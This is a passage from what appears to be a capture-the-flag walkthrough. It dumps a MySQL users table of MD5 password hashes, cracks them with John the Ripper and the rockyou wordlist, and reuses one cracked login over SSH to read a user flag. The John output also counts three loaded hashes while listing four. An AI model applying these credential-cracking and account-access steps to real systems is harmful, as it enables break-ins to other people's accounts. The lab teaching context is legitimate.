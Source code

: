 There is one table - maybe it has something in it?
```
MySQL [timetracking]> SELECT * FROM users
    -> ;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0,042 sec)
```

Oh, a bit of names - do you remember that code? It said that passwords are stored in `md5` - let's move them to `hashes.txt` file and try to crack them

It looks like this
```
claire-r:2ac9cb7dc02b3c0083eb70898e549b63 
chris-r:0d107d09f5bbe40cade3de5c71e9e9b7
jill-v:d5c0607301ad5d5c1528962a83992ac8
barry-b:4a04890400b5d7bac101baace5d7e994
```

Now, crack it
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=Raw-md5
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]       (claire-r)	
[REDACTED]       (chris-r)     
[REDACTED]       (jill-v)     
[REDACTED]       (barry-b)     
3g 0:00:00:00 DONE (2024-01-20 20:22) 150.0g/s 441600p/s 441600c/s 518400C/s allstars..glorioso
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

With `claire-r` - we can log into ssh

Get user flag

```
$ ssh claire-r@$IP
[...]
$ cat user.txt
[REDACTED]
```

### Privilege escalation

Inside `~/timeTracker-src` there is logs directory
